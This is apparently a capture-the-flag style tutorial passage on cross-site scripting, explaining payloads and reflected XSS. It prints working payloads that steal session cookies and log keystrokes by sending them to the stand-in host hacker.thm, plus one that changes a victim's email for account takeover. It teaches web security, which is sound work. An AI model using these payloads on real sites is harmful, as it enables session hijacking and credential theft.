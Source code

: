 **What is a payload?**

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.
The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).
Here are some examples of XSS intentions.
**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:
`<script>alert('XSS');</script>`

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
`<script>user.changeEmail('attacker@hacker.thm');</script>`

Now that the email address for the account has changed, the attacker may perform a reset password attack.

## **Reflected XSS**
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
**Example Scenario:**  
  
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the **error** parameter in the query string and is built directly into the page source.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/7f90b73106d655b07874943f93533f7b.png)  

The application doesn't check the contents of the **error** parameter, which allows the attacker to insert malicious code.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/66743e9fa50b4c5793f070eb505f72d1.png)  
